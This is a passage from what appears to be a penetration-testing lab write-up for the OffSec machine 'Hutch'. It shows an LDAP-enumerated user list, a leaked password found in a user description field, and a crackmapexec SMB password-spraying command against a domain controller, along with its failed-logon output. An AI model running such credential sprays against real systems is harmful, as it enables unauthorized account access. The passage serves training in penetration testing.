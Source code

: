 ```bash
 DnsUpdateProxy
 rplacidi
 opatry
 ltaunton
 acostello
 jsparwell
 oknee
 jmckendry
 avictoria
 jfrarey
 eaburrow
 cluddy
 agitthouse
 fmcsorley
```

I found interesting information in the result. It can be used later for user enumeration.

```bash
description: Password set to CrabSharkJellyfish192 at user's request. Please c
 hange on next login.
```

# Enumerating Users

Based on the gathered information from ldapsearch, I searched users and corresponding password.

Let’s find users and corresponding password with crackmapexec with smb option

```bash
┌──(root💀kali)-[~/hatch]
└─# crackmapexec smb 192.168.175.122 -u ./users.txt -p ./pass.txt --continue-on-success
/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         192.168.175.122 445    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Guest:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Domain Computers:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Cert Publishers:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Domain Users:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Domain Guests:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Group Policy Creator Owners:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\RAS and IAS Servers:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Allowed RODC Password Replication Group:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Denied RODC Password Replication Group:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Enterprise Read-only Domain Controllers:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Cloneable Domain Controllers:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\Protected Users:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\DnsAdmins:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
SMB         192.168.175.122 445    HUTCHDC          [-] hutch.offsec\DnsUpdateProxy:CrabSharkJellyfish192 STATUS_LOGON_FAILURE 
```